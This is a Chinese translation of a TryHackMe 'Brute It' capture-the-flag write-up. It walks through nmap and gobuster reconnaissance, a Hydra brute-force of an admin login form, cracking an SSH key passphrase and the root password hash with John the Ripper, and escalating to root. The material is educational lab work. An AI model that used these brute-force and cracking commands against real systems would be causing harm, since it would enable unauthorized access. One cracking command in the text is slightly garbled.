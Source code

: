 # try hackme:Brute It-up

> 原文：<https://infosecwriteups.com/tryhackme-brute-it-write-up-8e5a82b4403c?source=collection_archive---------2----------------------->

![](img/5dafd7ee1674c2edf3817d2ba82069ee.png)

我们启动[机](https://tryhackme.com/room/bruteit)开始黑吧！！！。

该房间包括以下内容:

*   蛮力
*   哈希破解
*   权限提升

连接到 OpenVPN 网络并部署机器。

![](img/5978e97e816ca1d80e05453ce116bb31.png)

初级 CTF 挑战赛

1.  通过 Nmap 扫描，我们可以识别开放的端口。

```
nmap -sC -sV -A <machine-ip>
```

![](img/b6c98e3ae8d23eb882361406b214b0b5.png)

nmap 扫描

2.因为其中一个开放的端口是 HTTP 端口，所以让我们来研究一下。

![](img/e65e13884766ed08c7336b303a67bced.png)

3.为了识别隐藏的扩展，我们可以使用 Gobuster 工具。

```
gobuster dir -u http://<machine-ip> -w <wordlist>
```

![](img/962b66701ad7b4e9ca1ebcf9c45a60e0.png)

gobuster 扫描结果

4.让我们打开隐藏的扩展。它看起来像一个登录表格。

![](img/dd1c9b1a48824f33ff7502fe3fef6839.png)

5.我们可以使用 Hydra 暴力破解 HTTP post 表单。

```
hydra -l admin -P <wordlist> <machine-ip> http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V
```

![](img/a1892cd3be9b0a65098f899c1199c335.png)

6.因为我们得到了登录表单的密码，所以让我们打开它。

![](img/b915956f96929a41db25bd6873f2d42d.png)

7.它看起来像 RSA 私钥，我们有 web 标志。

![](img/ac61ed215b881ef43c2c09c07863df57.png)

8.我们可以使用开膛手约翰工具破解 RSA 私钥。

```
ssh2john.py id_rsa > hashjohn hash -wordlist=<wordlist>
```

9.现在我们得到了密码短语。让我们打开 ssh 端口。

```
ssh -i id_rsa john@<machine-ip>
```

10.我们一打开 ssh，就可以看到 user.txt 标志。

![](img/a1eb6d77e92e17751b00a305fcbc62d1.png)

11.扩大特权

```
sudo -l
```

![](img/a296fdfa6bc63b4423e844e37fa21b03.png)

12.我们可以使用 cat 来找出用户密码的哈希值。

![](img/2d4f9fc86a4ebac80ffb7f1008c013be.png)

13.使用开膛手约翰，破解根用户的哈希。将散列存储在一个文件中并破解它。

```
john hash
```

14.切换到根用户。

```
su
```

15.提供 root 密码。

![](img/9f2fdf9393171f49af42ec2a1b459ea1.png)

16.砰！！！最后，我们还获得了 root.txt 标志。

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和[我的网站](https://vishnuram1999.github.io/)与我联系。